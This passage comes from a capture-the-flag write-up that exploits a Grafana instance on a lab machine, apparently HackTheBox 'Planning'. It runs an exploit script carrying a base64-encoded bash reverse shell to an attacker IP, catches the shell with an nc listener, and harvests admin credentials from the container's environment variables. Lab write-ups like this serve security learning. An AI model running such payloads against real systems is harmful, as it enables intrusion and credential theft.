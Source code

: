from there I got reverse shell using the same exploit

```bash
$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMjQvMTAwMDAgMD4mMQo=|base64 -d|bash' http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMjQvMTAwMDAgMD4mMQo=|base64 -d|bash
```

meanwhile in my other terminal

```bash
$ nc -lnvp 10000
Connection from 10.10.11.68:52500
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

the hostname `7ce659d667d7` confirmed that I'm inside a docker container

## enzo

usually containers environment has some secrets for init scripts to work, so I checked the env and found some credentials I used to login as enzo via ssh and grabbed the user flag 

```bash
root@7ce659d667d7:~# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

## root

once I logged in as enzo, I looked around in the file system and found an unusual crontab file under `/opt` which had a password inside of it
